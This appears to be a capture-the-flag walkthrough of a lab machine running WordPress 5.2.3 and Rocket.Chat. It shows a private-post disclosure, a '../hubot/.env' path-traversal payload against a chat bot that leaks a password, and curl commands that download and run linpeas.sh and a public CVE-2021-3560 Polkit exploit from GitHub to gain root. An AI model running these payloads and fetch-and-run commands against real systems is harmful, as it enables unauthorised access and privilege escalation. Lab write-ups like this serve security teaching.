



Exploitation Summary
Exploitation process: The target machine was running a WordPress instance version 5.2.3 on the domain office.paper, which was vulnerable to an unauthenticated view of private/draft posts. By exploiting this vulnerability through the ?static=1 parameter, I discovered a secret registration URL for a Rocket.Chat instance hosted at chat.office.paper.
After registering on the Rocket.Chat platform, I identified a chatbot named "recyclops" that had vulnerable file access functionality. By exploiting path traversal in the bot's file reading commands, I was able to read the .env file containing credentials for the user dwight, which granted SSH access to the system.
For privilege escalation, I used linpeas.sh to enumerate the system and discovered it was vulnerable to CVE-2021-3560, a Polkit authentication bypass vulnerability. By exploiting this flaw through D-Bus method calls, I created a privileged user account that allowed me to escalate to root access.
Technologies/Exploits: WordPress 5.2.3 unauthenticated private post disclosure, Rocket.Chat bot path traversal, CVE-2021-3560 (Polkit privilege escalation via D-Bus).
Initial Reconnaissance
I begin with an nmap scan to identify open ports and running services on the target machine:

The scan reveals standard services: SSH on port 22, HTTP on port 80, and HTTPS on port 443. Both the HTTP and HTTPS services display a default Apache/CentOS test page.
Web Enumeration - Virtual Host Discovery
Running whatweb against the HTTP service provides more detailed information:
whatweb http://10.10.11.143The output reveals interesting headers:
http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ],
Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9],
IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k],
PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS],
UncommonHeaders[x-backend-server], X-Backend[office.paper]The key finding here is the X-Backend header revealing the virtual host office.paper. I add this to my /etc/hosts file:
echo "10.10.11.143 office.paper" | sudo tee -a /etc/hostsWordPress Discovery and Enumeration
Accessing http://office.paper, I discover a WordPress site. Running whatweb again:
whatweb http://office.paperThis confirms WordPress version 5.2.3 is running:
http://office.paper [200 OK] Apache[2.4.37][mod_fcgid/2.3.9], Bootstrap[1,5.2.3],
Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9],
IP[10.10.11.143], JQuery, MetaGenerator[WordPress 5.2.3], OpenSSL[1.1.1k], PHP[7.2.24],
PoweredBy[WordPress,WordPress,], Script[text/javascript],
Title[Blunder Tiffin Inc. – The best paper company in the electric-city Scranton!],
UncommonHeaders[link,x-backend-server], WordPress[5.2.3], X-Backend[office.paper], X-Powered-By[PHP/7.2.24]Using cmseek for WordPress enumeration, I harvest several usernames:
Usernames harvested: 3
├── nick
├── creedthoughts
└── prisonmikeRunning wpscan doesn't reveal any additional critical vulnerabilities beyond what I've already found.
WordPress Vulnerability - Unauthenticated Private Post Disclosure
Researching WordPress 5.2.3 vulnerabilities, I find an interesting exploit at https://www.exploit-db.com/exploits/47690. This vulnerability allows viewing private or draft posts by simply appending ?static=1 to the WordPress URL.
Accessing http://office.paper/?static=1, I discover a private post containing a conversation with critical information:
Secret Registration URL of new Employee chat system
This reveals another virtual host. I add chat.office.paper to my /etc/hosts file:
echo "10.10.11.143 chat.office.paper" | sudo tee -a /etc/hostsRocket.Chat Registration and Reconnaissance
Accessing the registration URL, I find a Rocket.Chat instance - a team collaboration platform similar to Discord or Slack. After registering an account and entering the general chat channel, I observe conversations mentioning a bot named "recyclops".
The bot's description indicates it has file access capabilities:
3. Files:
e.g., 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'4. List:
You can ask me to list files
While I cannot interact with recyclops in the general chat, I'm able to open a direct message conversation with the bot.
Exploiting the Recyclops Bot - Path Traversal
Testing the bot's file access functionality, I immediately identify a path traversal vulnerability:

The bot doesn't properly sanitize file paths, allowing me to use ../ to traverse directories. I craft a command to read the bot's environment configuration file:
file ../hubot/.envThe bot responds with the contents of the .env file, which contains credentials:
export ROCKETCHAT_PASSWORD=Queenofblad3s!23Knowing that the bot was created by the user dwight (visible in the chat interface), I attempt SSH access with these credentials:
ssh dwight@10.10.11.143The credentials work! I successfully gain access to the machine as dwight and retrieve the user flag.
Post-Exploitation Enumeration
After gaining initial access, I enumerate the system to find privilege escalation vectors. Running ss -tuln to check for internal listening ports:

The output reveals several internal services including MongoDB and MySQL. After investigating these services and not finding immediate exploitation paths, I decide to use automated enumeration tools.
LinPEAS Enumeration
I download and execute linpeas.sh, a comprehensive privilege escalation enumeration script:
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.shAfter reviewing the extensive output, the most promising finding is:
Vulnerable to CVE-2021-3560This is a critical privilege escalation vulnerability in Polkit. More information about this CVE can be found at https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2021-3560.
Privilege Escalation - CVE-2021-3560 (Polkit)
Researching the vulnerability, I find a proof-of-concept exploit: https://github.com/tufanturhan/Polkit-Linux-Priv
Understanding CVE-2021-3560
According to the exploit documentation:
"CVE-2021-3560 is an authentication bypass on polkit, which allows unprivileged users to call privileged methods using DBus. In this exploit we will call 2 privileged methods provided by accountsservice (CreateUser and SetPassword), which allows us to create a privileged user then set a password to it and at the end log in as the created user and then elevate to root."
The vulnerability works by exploiting a race condition in Polkit. When a D-Bus request is made and then immediately killed before Polkit can verify the requester's authorization, Polkit incorrectly treats the requestor as the root user.
Exploit Mechanism
Reviewing the exploit code, I can see it performs the following actions:
- Uses
dbus-send --systemto callorg.freedesktop.Accounts.CreateUser - Kills the D-Bus request at a precise moment to trigger the race condition
- Checks if the user was successfully created
- Creates the user as a privileged account by passing the
int32:1flag - Sets a password for the newly created user
The critical part is the int32:1 flag - this creates the user as an administrator with full sudo privileges.
Executing the Exploit
I download and execute the exploit on the target system:
curl -L https://raw.githubusercontent.com/tufanturhan/Polkit-Linux-Priv/main/CVE-2021-3560.py -o exploit.py
chmod +x exploit.py
./exploit.pyThe exploit successfully creates a privileged user. I can then switch to this user and escalate to root:
su - [created_user]
sudo suThis grants me root access:
[root@paper dwight]# whoami
rootI can now retrieve the root flag and complete the machine. The privilege escalation demonstrates how a timing vulnerability in a system authentication component can be exploited to completely bypass privilege restrictions.